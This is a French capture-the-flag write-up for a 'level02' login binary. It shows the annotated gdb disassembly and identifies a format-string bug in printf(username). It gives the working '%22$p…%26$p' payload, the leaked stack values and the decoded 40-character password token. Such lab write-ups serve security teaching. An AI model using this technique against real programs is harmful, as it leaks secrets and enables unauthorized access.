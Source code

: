 # Analyse

## Binaire

`./level02`
```
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username:
```
`test`
```
--[ Password:
```
`test`
```
*****************************************
test does not have access!
```
## Gdb

`info function`
```asm
[...]
  0x0000000000400814  main
[...]
```


`disas main`
```asm
Dump of assembler code for function main:
   0x0000000000400814 <+0>:	push   rbp
   0x0000000000400815 <+1>:	mov    rbp,rsp
   0x0000000000400818 <+4>:	sub    rsp,0x120                        ; 120 octets pout la stack
   0x000000000040081f <+11>:	mov    DWORD PTR [rbp-0x114],edi      ; argc
   0x0000000000400825 <+17>:	mov    QWORD PTR [rbp-0x120],rsi      ; argv
   0x000000000040082c <+24>:	lea    rdx,[rbp-0x70]                 ; buffer_a  @ rbp - 0x70
   0x0000000000400830 <+28>:	mov    eax,0x0
   0x0000000000400835 <+33>:	mov    ecx,0xc
   0x000000000040083a <+38>:	mov    rdi,rdx
   0x000000000040083d <+41>:	rep stos QWORD PTR es:[rdi],rax       ; memset(buffer_a, 0, 12);
   0x0000000000400840 <+44>:	mov    rdx,rdi
   0x0000000000400843 <+47>:	mov    DWORD PTR [rdx],eax
   0x0000000000400845 <+49>:	add    rdx,0x4
   0x0000000000400849 <+53>:	lea    rdx,[rbp-0xa0]                 ; buffer_b  @ rbp - 0xa0
   0x0000000000400850 <+60>:	mov    eax,0x0
   0x0000000000400855 <+65>:	mov    ecx,0x5
   0x000000000040085a <+70>:	mov    rdi,rdx
   0x000000000040085d <+73>:	rep stos QWORD PTR es:[rdi],rax       ; memset(buffer_b, 0, 5);
   0x0000000000400860 <+76>:	mov    rdx,rdi
   0x0000000000400863 <+79>:	mov    BYTE PTR [rdx],al
   0x0000000000400865 <+81>:	add    rdx,0x1
   0x0000000000400869 <+85>:	lea    rdx,[rbp-0x110]                ; buffer_c  @ rbp - 0x110
   0x0000000000400870 <+92>:	mov    eax,0x0
   0x0000000000400875 <+97>:	mov    ecx,0xc
   0x000000000040087a <+102>:	mov    rdi,rdx
   0x000000000040087d <+105>:	rep stos QWORD PTR es:[rdi],rax       ; memset(buffer_c, 0, 12);
   0x0000000000400880 <+108>:	mov    rdx,rdi
   0x0000000000400883 <+111>:	mov    DWORD PTR [rdx],eax
   0x0000000000400885 <+113>:	add    rdx,0x4
   0x0000000000400889 <+117>:	mov    QWORD PTR [rbp-0x8],0x0
   0x0000000000400891 <+125>:	mov    DWORD PTR [rbp-0xc],0x0
   0x0000000000400898 <+132>:	mov    edx,0x400bb0
   0x000000000040089d <+137>:	mov    eax,0x400bb2
   0x00000000004008a2 <+142>:	mov    rsi,rdx
   0x00000000004008a5 <+145>:	mov    rdi,rax
   0x00000000004008a8 <+148>:	call   0x400700 <fopen@plt>           ; fd = fopen("/home/users/level03/.pass", "r");
   0x00000000004008ad <+153>:	mov    QWORD PTR [rbp-0x8],rax
   0x00000000004008b1 <+157>:	cmp    QWORD PTR [rbp-0x8],0x0
   0x00000000004008b6 <+162>:	jne    0x4008e6 <main+210>            ; if fd != 0:  jump à <+210>
   0x00000000004008b8 <+164>:	mov    rax,QWORD PTR [rip+0x200991]        # 0x601250 <stderr@@GLIBC_2.2.5>
   0x00000000004008bf <+171>:	mov    rdx,rax
   0x00000000004008c2 <+174>:	mov    eax,0x400bd0
   0x00000000004008c7 <+179>:	mov    rcx,rdx
   0x00000000004008ca <+182>:	mov    edx,0x24
   0x00000000004008cf <+187>:	mov    esi,0x1
   0x00000000004008d4 <+192>:	mov    rdi,rax
   0x00000000004008d7 <+195>:	call   0x400720 <fwrite@plt>          ; fwrite("ERROR: failed to open password file\n", 1, 36, stderr);
   0x00000000004008dc <+200>:	mov    edi,0x1
   0x00000000004008e1 <+205>:	call   0x400710 <exit@plt>            ; exit(1);
   0x00000000004008e6 <+210>:	lea    rax,[rbp-0xa0]
   0x00000000004008ed <+217>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000004008f1 <+221>:	mov    rcx,rdx
   0x00000000004008f4 <+224>:	mov    edx,0x29
   0x00000000004008f9 <+229>:	mov    esi,0x1
   0x00000000004008fe <+234>:	mov    rdi,rax
   0x0000000000400901 <+237>:	call   0x400690 <fread@plt>           ; b_size = fread(buffer_b, 1, 41, fd);
   0x0000000000400906 <+242>:	mov    DWORD PTR [rbp-0xc],eax
   0x0000000000400909 <+245>:	lea    rax,[rbp-0xa0]
   0x0000000000400910 <+252>:	mov    esi,0x400bf5
   0x0000000000400915 <+257>:	mov    rdi,rax
   0x0000000000400918 <+260>:	call   0x4006d0 <strcspn@plt>         ; index = strcspn(buffer_b, "\n);
   0x000000000040091d <+265>:	mov    BYTE PTR [rbp+rax*1-0xa0],0x0  ; buffer_b[index] = 0;
   0x0000000000400925 <+273>:	cmp    DWORD PTR [rbp-0xc],0x29
   0x0000000000400929 <+277>:	je     0x40097d <main+361>            ; if b_size == 41:  jump à <+361>
   0x000000000040092b <+279>:	mov    rax,QWORD PTR [rip+0x20091e]        # 0x601250 <stderr@@GLIBC_2.2.5>
   0x0000000000400932 <+286>:	mov    rdx,rax
   0x0000000000400935 <+289>:	mov    eax,0x400bf8
   0x000000000040093a <+294>:	mov    rcx,rdx
   0x000000000040093d <+297>:	mov    edx,0x24
   0x0000000000400942 <+302>:	mov    esi,0x1
   0x0000000000400947 <+307>:	mov    rdi,rax
   0x000000000040094a <+310>:	call   0x400720 <fwrite@plt>          ; fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
   0x000000000040094f <+315>:	mov    rax,QWORD PTR [rip+0x2008fa]        # 0x601250 <stderr@@GLIBC_2.2.5>
   0x0000000000400956 <+322>:	mov    rdx,rax
   0x0000000000400959 <+325>:	mov    eax,0x400bf8
   0x000000000040095e <+330>:	mov    rcx,rdx
   0x0000000000400961 <+333>:	mov    edx,0x24
   0x0000000000400966 <+338>:	mov    esi,0x1
   0x000000000040096b <+343>:	mov    rdi,rax
   0x000000000040096e <+346>:	call   0x400720 <fwrite@plt>          ; fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
   0x0000000000400973 <+351>:	mov    edi,0x1
   0x0000000000400978 <+356>:	call   0x400710 <exit@plt>            ; exit(1);
   0x000000000040097d <+361>:	mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000400981 <+365>:	mov    rdi,rax
   0x0000000000400984 <+368>:	call   0x4006a0 <fclose@plt>          ; fclose(fd);
   0x0000000000400989 <+373>:	mov    edi,0x400c20
   0x000000000040098e <+378>:	call   0x400680 <puts@plt>            ; puts("===== [ Secure Access System v1.0 ] =====");
   0x0000000000400993 <+383>:	mov    edi,0x400c50
   0x0000000000400998 <+388>:	call   0x400680 <puts@plt>            ; puts("/***************************************\\");
   0x000000000040099d <+393>:	mov    edi,0x400c80
   0x00000000004009a2 <+398>:	call   0x400680 <puts@plt>            ; puts("| You must login to access this system. |");
   0x00000000004009a7 <+403>:	mov    edi,0x400cb0
   0x00000000004009ac <+408>:	call   0x400680 <puts@plt>            ; puts("\\**************************************/");
   0x00000000004009b1 <+413>:	mov    eax,0x400cd9
   0x00000000004009b6 <+418>:	mov    rdi,rax
   0x00000000004009b9 <+421>:	mov    eax,0x0
   0x00000000004009be <+426>:	call   0x4006c0 <printf@plt>          ; printf("--[ Username: ");
   0x00000000004009c3 <+431>:	mov    rax,QWORD PTR [rip+0x20087e]        # 0x601248 <stdin@@GLIBC_2.2.5>
   0x00000000004009ca <+438>:	mov    rdx,rax
   0x00000000004009cd <+441>:	lea    rax,[rbp-0x70]
   0x00000000004009d1 <+445>:	mov    esi,0x64
   0x00000000004009d6 <+450>:	mov    rdi,rax
   0x00000000004009d9 <+453>:	call   0x4006f0 <fgets@plt>           ; fgets(buffer_a, 100, stdin);
   0x00000000004009de <+458>:	lea    rax,[rbp-0x70]
   0x00000000004009e2 <+462>:	mov    esi,0x400bf5
   0x00000000004009e7 <+467>:	mov    rdi,rax
   0x00000000004009ea <+470>:	call   0x4006d0 <strcspn@plt>         ; index = strcspn(buffer_a, "\n");
   0x00000000004009ef <+475>:	mov    BYTE PTR [rbp+rax*1-0x70],0x0  ; buffer_a[index] = 0;
   0x00000000004009f4 <+480>:	mov    eax,0x400ce8
   0x00000000004009f9 <+485>:	mov    rdi,rax
   0x00000000004009fc <+488>:	mov    eax,0x0
   0x0000000000400a01 <+493>:	call   0x4006c0 <printf@plt>          ; printf("--[ Password: ");
   0x0000000000400a06 <+498>:	mov    rax,QWORD PTR [rip+0x20083b]        # 0x601248 <stdin@@GLIBC_2.2.5>
   0x0000000000400a0d <+505>:	mov    rdx,rax
   0x0000000000400a10 <+508>:	lea    rax,[rbp-0x110]
   0x0000000000400a17 <+515>:	mov    esi,0x64
   0x0000000000400a1c <+520>:	mov    rdi,rax
   0x0000000000400a1f <+523>:	call   0x4006f0 <fgets@plt>           ; fgets(buffer_c, 100, stdin);
   0x0000000000400a24 <+528>:	lea    rax,[rbp-0x110]
   0x0000000000400a2b <+535>:	mov    esi,0x400bf5
   0x0000000000400a30 <+540>:	mov    rdi,rax
   0x0000000000400a33 <+543>:	call   0x4006d0 <strcspn@plt>         ; index = strcspn(buffer_c, "\n");
   0x0000000000400a38 <+548>:	mov    BYTE PTR [rbp+rax*1-0x110],0x0 ; buffer_c[index] = 0;
   0x0000000000400a40 <+556>:	mov    edi,0x400cf8
   0x0000000000400a45 <+561>:	call   0x400680 <puts@plt>            ; puts("*****************************************");
   0x0000000000400a4a <+566>:	lea    rcx,[rbp-0x110]
   0x0000000000400a51 <+573>:	lea    rax,[rbp-0xa0]
   0x0000000000400a58 <+580>:	mov    edx,0x29
   0x0000000000400a5d <+585>:	mov    rsi,rcx
   0x0000000000400a60 <+588>:	mov    rdi,rax
   0x0000000000400a63 <+591>:	call   0x400670 <strncmp@plt>
   0x0000000000400a68 <+596>:	test   eax,eax
   0x0000000000400a6a <+598>:	jne    0x400a96 <main+642>            ; if strncmp(buffer_b, buffer_c, 41) != 0:  jump <+642>
   0x0000000000400a6c <+600>:	mov    eax,0x400d22
   0x0000000000400a71 <+605>:	lea    rdx,[rbp-0x70]
   0x0000000000400a75 <+609>:	mov    rsi,rdx
   0x0000000000400a78 <+612>:	mov    rdi,rax
   0x0000000000400a7b <+615>:	mov    eax,0x0
   0x0000000000400a80 <+620>:	call   0x4006c0 <printf@plt>          ; printf("Greetings, %s!\n", buffer_a);
   0x0000000000400a85 <+625>:	mov    edi,0x400d32
   0x0000000000400a8a <+630>:	call   0x4006b0 <system@plt>          ; system("/bin/sh");
   0x0000000000400a8f <+635>:	mov    eax,0x0
   0x0000000000400a94 <+640>:	leave
   0x0000000000400a95 <+641>:	ret                                   ; return(0);
   0x0000000000400a96 <+642>:	lea    rax,[rbp-0x70]                 ; jump from <+598>
   0x0000000000400a9a <+646>:	mov    rdi,rax
   0x0000000000400a9d <+649>:	mov    eax,0x0
   0x0000000000400aa2 <+654>:	call   0x4006c0 <printf@plt>          ; printf(buffer_a);
   0x0000000000400aa7 <+659>:	mov    edi,0x400d3a
   0x0000000000400aac <+664>:	call   0x400680 <puts@plt>            ; puts(" does not have access!");
   0x0000000000400ab1 <+669>:	mov    edi,0x1
   0x0000000000400ab6 <+674>:	call   0x400710 <exit@plt>            ; exit(1);
End of assembler dump.
```
C'est un binaire 64bits, donc la 'calling convention' est différente d'un binaire 32 bits: on passe les arguments par les registres et non par la stack. (cf. "A.2.1 Calling Conventions", p.123 de la [documentation](https://refspecs.linuxfoundation.org/elf/x86_64-abi-0.99.pdf)).
# Exploit

Le programme attend en input un nom d'utilisateur et un mot de passe, compare le mot de passe avec le contenu du fichier .pass et nous ouvre un shell s'ils sont égaux. Dommage, en passant par gdb on n'a pas les droits pour ouvrir le fichier .pass donc on n'atteint pas la condition.

Par contre, printf à <+654> est vulnérable à un [exploit format string](https://axcheron.github.io/exploit-101-format-strings/) puisqu'il prend uniquement en paramètre le username que nous contrôlons.
On devrait pouvoir afficher ainsi le contenu du fichier .pass qui se trouve sur la stack.
Puisque c'est un binaire 64bits, printf va lire les arguments sur la stack tous les 8 octets et nous savons que le token fait 40 caractères.
Nous allons donc devoir afficher 40 / 8 = 5 paramètres consécutifs à printf pour obtenir notre token complet, reste à savoir à partir de combien de paramètres !

- La stack fait 0x120 = 288 octets
- Le buffer qui nous intéresse se situe à rbp - 0xa0 (160) = rsp + 128
- On devrait tomber sur la zone de la stack qui nous intéresse au 16ème argument (128 / 8)
- Cependant, selon la documentation mentionnée plus haut
  > User-level applications use as integer registers for passing the sequence %rdi, %rsi, %rdx, %rcx, %r8 and %r9
  - printf va donc d'abord chercher ses arguments parmi ces registres avant d'aller les chercher sur la stack !

Notre token devrait donc être affiché par printf à partir du 22ème argument (128 / 8 + les 6 registres)

`./level02`
```
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %22$p%23$p%24$p%25$p%26$p
--[ Password:
*****************************************
0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d does not have access!
```

Pour finalement décoder notre pass, il faut décoder chaque adresse en ascii et la reverse à cause du boutisme (endianness, [oui oui on dit boutisme en français](https://fr.wikipedia.org/wiki/Boutisme) 😂).

`python`
- `str = "0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d"`
- `''.join([addr.decode('hex')[::-1] for addr in str.split("0x")])`
  ```
  Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
  ```
